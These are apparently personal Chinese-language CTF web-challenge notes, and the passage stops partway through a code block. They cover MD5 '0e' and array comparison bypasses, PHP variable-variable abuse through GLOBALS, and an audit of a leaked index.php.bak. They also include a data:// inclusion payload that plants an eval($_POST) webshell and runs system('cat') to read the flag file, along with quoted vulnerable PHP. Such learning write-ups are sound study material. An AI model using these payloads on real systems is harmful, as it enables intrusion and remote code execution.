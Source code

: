 数组能绕过是因为md5函数报错两个返回值一样，所以相等

0e是因为md5会默认0e开头后为纯数字的数据当作0



### [dsb]web签到



![image-20220522223824074](D:\Typora\note\CTF\web\challenge.assets\image-20220522223824074.png)

从代码来看，就是构造一个正反一样的字符串，还能包含进行rce，直接使用data协议即可，data协议后，<font color='pink'>php标记?>闭合后可以加任意字符。</font>

**data协议暂时还不懂**

于是构造payload

`file=data://text/plain,<?php eval($_POST[1]);?>>?;)]1[TSOP_$(lave php?<,nialp/txet//:atad&1=system("cat /f1agaaa");`

利用data协议写进了一句话木马，然后ls一下cat flagaaa就好了

### 变量



```php
flag In the variable ! <?php  

error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
```

这个正则匹配不太懂...

最后用全局变量`GLOBALS`拿到flag



### 代码审计



进入页面，看源码，没有发现任何有用信息

扫下目录

![image-20220525160727412](D:\Typora\note\CTF\web\challenge.assets\image-20220525160727412.png)

下载index.php.bak源码

```php
<?php
include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
```